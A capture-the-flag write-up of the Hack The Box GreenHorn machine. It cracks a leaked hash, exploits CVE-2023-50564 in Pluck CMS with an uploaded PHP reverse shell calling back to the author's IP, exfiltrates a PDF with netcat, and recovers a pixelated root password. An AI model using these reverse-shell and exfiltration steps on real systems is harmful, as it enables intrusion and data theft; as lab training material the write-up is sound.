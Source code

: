 # HTB GreenHorn

Add the DNS into HOSTS

```bash
echo -e '10.129.191.235\t\tgreenhorn.htb'
```

## Admin console page

![admin page](image.png)

## nmap scan for ports 

```bash
(base) nathan@ubuntu-desktop:~/Documents/git/ctf_journey$ sudo nmap -sS 10.10.11.25
[sudo] password for nathan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 03:34 CET
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We can see that we have a ppp server running on 3000.

Opening up the web page we can see that there is self hosting git service with the git project.

## User Password

![alt text](image-1.png)

User hash password.

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`

![alt text](image-2.png)

We can see that its a sha512 hash. We can try and bruteforce the password.

Simply by trying to use a cracker online I've found the password.
![alt text](image-3.png)

## Admin login
logged in with the password.
![alt text](image-4.png)

Now we can see the pluck version that they are using. 4.7.18.

## CVE CVE-2023-50564

First search found a CVE on Pluck being able to do remote Code Excecution. This is good since this will help us invoke a reverse shell.

![alt text](image-5.png)

Found more info here [github](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC).
CVE-2023-50564 is a vulnerability that allows unauthorized file uploads in Pluck CMS version 4.7.18. This exploit leverages a flaw in the module installation function to upload a ZIP file containing a PHP shell, thereby enabling remote command execution.

I took the php script in the git and simply added my own IP addr. I had for the VPN.

Snippet : 

```php
        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.132', 8888);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

```

Created a ZIP and uploaded to the server VIA import modules.

```bash

(base) nathan@ubuntu-desktop:~/Downloads/GreenHorn/rev/CVE-2023-50564_Pluck-v4.7.18_PoC$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.25 38794
SOCKET: Shell has connected! PID: 7198
```


## User flag



```bash
whoami 
www-data
ls
README.md
SECURITY.md
admin.php
data
docs
files
images
index.php
install.php
login.php
requirements.php
robots.txt
tree
ls /home/
git
junior
ls /home/junior/
Using OpenVAS.pdf
user.txt
ls -la /home/junior/user.txt
-rw-r----- 1 root junior 33 Nov  2 00:45 /home/junior/user.txt
```

Connect as junior

```bash
su junior
Password: iloveyou1
whoami
junior
```

User flag : 
```bash
cat /home/junior/user.txt
667ba77652cff26d8a402206bf756e8d
```

## Root flag

Saw a pdf file earlier in the logs so lets self transfer it.

Our listening server :
```bash
(base) nathan@ubuntu-desktop:~$ nc -lnvp 8889 > Using_OpenVAS.pdf
Listening on 0.0.0.0 8889
Connection received on 10.10.11.25 50624
```

The file transfer with cat :
```bash
cd /home/junior
ls
user.txt
Using OpenVAS.pdf
cat Using\ OpenVAS.pdf | nc 10.10.14.132 8889
```
We see a pixelated password.
![alt text](image-6.png)

Extract image from pdf : 

```bash
pdfimages Using_OpenVAS.pdf out_pdf.ppm
```

![alt text](image-7.png)

Using [Depix repo](https://github.com/spipm/Depix/tree/main) : 

```bash
python3 depix.py     -p out_pdf.ppm-000.ppm     -s images/searchimages/debruinseq_notepad_Windows10_spaced.png
```

![alt text](output.png)

`sidefromsidetheothersidesidefromsidetheotherside`

su root :

```bash
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
whoami
root
```

Root flag : 

```bash
cd /root
ls
cleanup.sh
restart.sh
root.txt
cat root.txt
eb889c6c6dba0888fdc40b9e327bbbca
```